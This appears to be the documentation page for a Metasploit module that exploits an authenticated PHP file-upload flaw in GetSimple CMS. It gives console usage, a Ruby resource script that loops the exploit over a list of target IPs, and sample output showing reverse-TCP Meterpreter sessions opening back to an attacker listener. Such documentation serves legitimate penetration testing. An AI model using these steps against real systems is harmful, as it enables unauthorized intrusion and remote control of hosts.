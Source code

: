 ## GetSimpleCMS PHP File Upload Vulnerability

---

This module exploits a file upload vulnerability in GetSimple CMS. By abusing the upload.php file, a malicious authenticated user can upload an arbitrary file, including PHP code, which results in arbitrary code execution.

## Module Name

---

exploit/unix/webapp/get_simple_cms_upload_exec

## Authors

---

- Ahmed Elhady Mohamed

## Platforms

---

php

## Module Ranking

---

**Excellent**

> The exploit will never crash the service. This is the case for SQL Injection, CMD execution, RFI, LFI, etc. No typical memory corruption exploits should be given this ranking unless there are extraordinary circumstances.

## Module Traits

---

## Related Pull Requests

---

GITHUB_OAUTH_TOKEN environment variable not set. [See how](https://help.github.com/articles/creating-an-access-token-for-command-line-use/)

## References

---

- CVE: [Not available](https://docs.metasploit.com/docs/using-metasploit/other/why-cve-is-not-available.html)
- [EDB-25405](https://www.exploit-db.com/exploits/25405)
- OSVDB (93034)

## Available Targets

---

- Generic (PHP Payload)

## Required Options

---

- **RHOSTS:** The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
    
- **USERNAME:** The username that will be used for authentication process
    
- **PASSWORD:** The right password for the provided username
    

## Basic Usage

---

**Using get_simple_cms_upload_exec against a single host**

Normally, you can use exploit/unix/webapp/get_simple_cms_upload_exec this way:

```
msf > use exploit/unix/webapp/get_simple_cms_upload_exec
msf exploit(get_simple_cms_upload_exec) > show targets
    ... a list of targets ...
msf exploit(get_simple_cms_upload_exec) > set TARGET target-id
msf exploit(get_simple_cms_upload_exec) > show options
    ... show and set options ...
msf exploit(get_simple_cms_upload_exec) > exploit
```

**Using get_simple_cms_upload_exec against multiple hosts**

But it looks like this is a remote exploit module, which means you can also engage multiple hosts.

First, create a list of IPs you wish to exploit with this module. One IP per line.

Second, set up a background payload listener. This payload should be the same as the one your get_simple_cms_upload_exec will be using:

1. Do: `use exploit/multi/handler`
2. Do: `set PAYLOAD [payload]`
3. Set other options required by the payload
4. Do: `set EXITONSESSION false`
5. Do: `run -j`

At this point, you should have a payload listening.

Next, create the following script. Notice you will probably need to modify the ip_list path, and payload options accordingly:

```
&#x3c;ruby&#x3e;
#
# Modify the path if necessary
#
ip_list = '/tmp/ip_list.txt'

File.open(ip_list, 'rb').each_line do |ip|
  print_status("Trying against #{ip}")
  run_single("use exploit/unix/webapp/get_simple_cms_upload_exec")
  run_single("set RHOST #{ip}")
  run_single("set DisablePayloadHandler true")

  #
  # Set a payload that's the same as the handler.
  # You might also need to add more run_single commands to configure other
  # payload options.
  #
  run_single("set PAYLOAD [payload name]")

  run_single("run")
end
&#x3c;/ruby&#x3e;
```

Next, run the resource script in the console:

```
msf > resource [path-to-resource-script]
```

And finally, you should see that the exploit is trying against those hosts similar to the following MS08-067 example:

```
msf > resource /tmp/exploit_hosts.rc
[*] Processing /tmp/exploit_hosts.rc for ERB directives.
[*] resource (/tmp/exploit_hosts.rc)> Ruby Code (402 bytes)
[*] Trying against 192.168.1.80

RHOST => 192.168.1.80
DisablePayloadHandler => true
PAYLOAD => windows/meterpreter/reverse_tcp
LHOST => 192.168.1.199

[*] 192.168.1.80:445 - Automatically detecting the target...
[*] 192.168.1.80:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 192.168.1.80:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 192.168.1.80:445 - Attempting to trigger the vulnerability...
[*] Sending stage (957999 bytes) to 192.168.1.80
[*] Trying against 192.168.1.109
RHOST => 192.168.1.109
DisablePayloadHandler => true
PAYLOAD => windows/meterpreter/reverse_tcp
LHOST => 192.168.1.199
[*] 192.168.1.109:445 - Automatically detecting the target...
[*] 192.168.1.109:445 - Fingerprint: Windows 2003 - Service Pack 2 - lang:Unknown
[*] 192.168.1.109:445 - We could not detect the language pack, defaulting to English
[*] 192.168.1.109:445 - Selected Target: Windows 2003 SP2 English (NX)
[*] 192.168.1.109:445 - Attempting to trigger the vulnerability...
[*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.80:1071) at 2016-03-02 19:32:49 -0600

[*] Sending stage (957999 bytes) to 192.168.1.109
[*] Meterpreter session 2 opened (192.168.1.199:4444 -> 192.168.1.109:4626) at 2016-03-02 19:32:52 -0600
```